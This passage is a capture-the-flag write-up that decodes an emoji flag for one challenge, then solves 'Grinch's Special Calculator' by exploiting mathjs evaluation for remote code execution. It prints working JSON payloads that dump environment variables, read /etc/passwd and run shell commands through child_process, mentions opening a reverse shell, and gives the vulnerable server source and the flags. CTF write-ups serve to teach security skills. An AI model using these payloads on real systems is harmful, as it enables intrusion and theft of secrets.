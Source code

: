 Eventually it spat out 
> {'result': '💰🔒🍇💬🏤🍒💬🍇🔻🤪🍑🤑🏏🔻😈🍇🔻👾🍑🍓🚡🍇🔻😈🔻🤪🔻🍑🎢🤑🏏🙈🤑🤪🍑🤑🏏❕🔓', 'status': 'FLAG'}

Translate back (lookup-table is in the web sourcecode):

> `${5@N7@5_C0DE_I5_B06U5_I_C_0xDEADC0DE!}`


# Door 15 - Grinch's Special Calculator
> So the Grinch is trying to do some coding as well, and he has built this lovely scientific calculator!  Can you find the hidden secret?
> Hint: Maybe you need to know alot about maths... or maybe trig?

A webpage with a backend that does math.

Sending just `[]` as the expression gives something interesting:
```json
{"result":{"mathjs":"DenseMatrix","data":[],"size":[0]}}
```

So mathjs. Their webpage has an example of how to do a more [secure eval](https://mathjs.org/examples/advanced/more_secure_eval.js.html), but the example function `parse("2+3")` isn't blocked here, so that's a major hint. More googling on mathjs rce finds [https://jwlss.pw/mathjs/](https://jwlss.pw/mathjs/) which has some nice examples:
```json
{"exp":"cos.constructor(\"return process.env\")()"}
```
This gave me the environment variables. No flags there this time, so we keep looking. I finally found out how to read files:
```json
{"exp":"cos.constructor(\"return process.mainModule.require(\\\"fs\\\").readFileSync(\\\"/etc/passwd\\\").toString()\")()"}
```
But I couldn't find the flag, so I wanted to run commands:
```json
{"exp": "cos.constructor(\"return process.mainModule.require(\\\"child_process\\\").execSync(\\\"ls -la\\\").toString()\")()"}
```
Digging with web-requests was too cumbersome, so I started a reverse shell. Finally found the flag in the source code of the app:
```
# cat index.js
cat index.js
const math = require("mathjs");
const express = require("express");
const path = require("path");
const flag = "${#N3V3R_7RU5T_L|B5_743Y_@R3_3V|7}";
const app = express();
app.use(express.json());
app.use(express.static(path.join(__dirname, "static")));
app.post("/evaluate",(req,res)=>{
    if(!req.body.exp){
        res.status(400).json({"error":"You need to send the expression as the exp query parameter..."});
    }
    try{
        let result = math.eval(req.body.exp);
        res.status(200).json({"result": result});
    } catch(error){
        res.status(400).json({"error":error});
    }
});

app.listen(80, ()=>{
    console.log("Up!");
});
```
